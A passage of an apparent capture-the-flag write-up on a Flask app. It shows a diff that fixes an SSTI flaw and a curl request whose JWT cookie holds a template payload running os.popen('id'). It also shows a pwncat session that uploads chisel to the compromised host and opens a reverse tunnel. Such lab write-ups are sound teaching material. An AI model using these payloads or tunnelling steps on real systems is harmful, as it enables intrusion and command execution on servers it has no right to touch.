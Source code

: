```diff
<     return render_template_string("<h2>{page} was not found</h2><br><p>Only routes / and /adminPage are available</p>", page=request.path), 404
---
>     html = "<h2>{page} was not found</h2><br><p>Only routes / and /adminPage are available</p>".format(page=request.path)
>     return render_template_string(html), 404
127c128
< app.run(debug=True, use_debugger=True, use_reloader=False, host="0.0.0.0", port=parser.parse_args().port)
\ No newline at end of file
---
> app.run(host="0.0.0.0", port=parser.parse_args().port, debug=False, use_reloader=False)
\ No newline at end of file
```

**In the production one's SSTI exploit, it's fixed on the `/adminPage`, as the `role` will just render `{role}`.**
```shell
(remote) www-data@flask:/var/www/app$ curl -i -s -k -X $'GET' \
>     -H $'Host: localhost:5000' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
>     -b $'token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoie3sgc2VsZi5fVGVtcGxhdGVSZWZlcmVuY2VfX2NvbnRleHQuY3ljbGVyLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCdpZCcpLnJlYWQoKSB9fSJ9.Ex_wow2iHjH97TNLAr0V-iO25-bnWc-prB3Bkw-KMDw' \
>     $'http://localhost:5000/adminPage'
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/2.3.4 Python/3.10.6
Date: Sat, 13 May 2023 15:09:54 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 55
Connection: close

Sorry but you can't access this page, you're a '{role}'
```

To access the development one, we must need to do port forwarding.

**To do so, I'll use `chisel`:**
```shell
(local) pwncat$ upload /opt/chisel/chiselx64
./chiselx64 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.1/8.1 MB • 3.3 MB/s • 0:00:00
[23:30:16] uploaded 8.08MiB in 9.85 seconds                                                    upload.py:76
(local) pwncat$                                                                                            
(remote) www-data@flask:/tmp$ chmod +x chiselx64 
```

**Reverse port fowarding in server:**
```shell
┌[siunam♥earth]-(/opt/chisel)-[2023.05.13|23:33:20(HKT)]
└> ./chiselx64 server -p 4444 --reverse
2023/05/13 23:33:23 server: Reverse tunnelling enabled
2023/05/13 23:33:23 server: Fingerprint e64LBwv+C0Ou8eG0p91ZpOmnV58zy7yJQ+QVSwfpDgI=
2023/05/13 23:33:23 server: Listening on http://0.0.0.0:4444
```
